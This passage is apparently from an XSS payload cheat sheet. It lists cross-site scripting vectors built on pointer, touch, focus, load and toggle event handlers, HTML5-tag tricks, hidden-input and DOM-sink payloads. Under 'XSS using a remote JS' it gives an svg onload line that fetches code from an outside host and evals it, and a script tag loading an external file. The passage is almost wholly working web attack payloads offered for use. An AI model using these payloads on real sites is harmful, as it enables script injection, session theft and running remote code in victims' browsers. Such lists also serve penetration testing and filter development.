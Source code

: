 ```javascript
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

### XSS using HTML5 tags

```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```

### XSS using a remote JS

```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
// you can also specify an arbitrary payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

### XSS in hidden input

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```

### DOM based XSS

Based on a DOM XSS sink.

```javascript
#"><img src=/ onerror=alert(2)>
```

### XSS in JS Context
